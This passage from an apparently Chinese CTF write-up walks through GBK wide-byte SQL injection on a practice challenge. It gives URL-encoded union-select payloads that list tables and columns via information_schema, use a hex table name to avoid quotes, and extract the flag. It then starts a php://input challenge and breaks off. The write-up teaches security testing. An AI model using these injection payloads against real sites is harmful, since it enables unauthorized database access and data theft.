 但是这道题我们不推荐这个嵌套查询的方法。

 

 

有一个系统自带的函数：group_concat()（一般是CTF中常用的）:

```
id=-1%df%27%20union+select+null,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()%23
```

![img](http://wh1sper.com/wp-content/uploads/2020/02/GBK_injection-7.png)

直接查到了所有表名；

虽然单引号被过滤了，我们可以使用16进制绕过的方法：

```
id=-1%df%27%20union+select+null,group_concat(column_name)+from+information_schema.columns+where+table_name=0x6e657773%23
```

![img](http://wh1sper.com/wp-content/uploads/2020/02/GBK_injection-8.png)

直接查到了news（0x6e657773）表中所有字段名；

在这之后，可以把union中的null替换为查询语句

select 字段名 from 表名

```
id=-1%df%27%20union%20select%20null,flag%20from%20ctf4%23
```

当然其他的表存在假的flag，这个才是真的；

flag{this_is_sqli_flag}

 

 

 

### [file_get_contents](http://chinalover.sinaapp.com/web23/)

知识点：php://input访问POST请求的原始数据的只读流

访问题目，查看源码：

```
<!--$file = $_GET['file'];
if(@file_get_contents($file) == "meizijiu"){
    echo $nctf;
}-->
```

这里使用PHP伪协议php://input访问未处理过的POST数据：

burp suite发包：
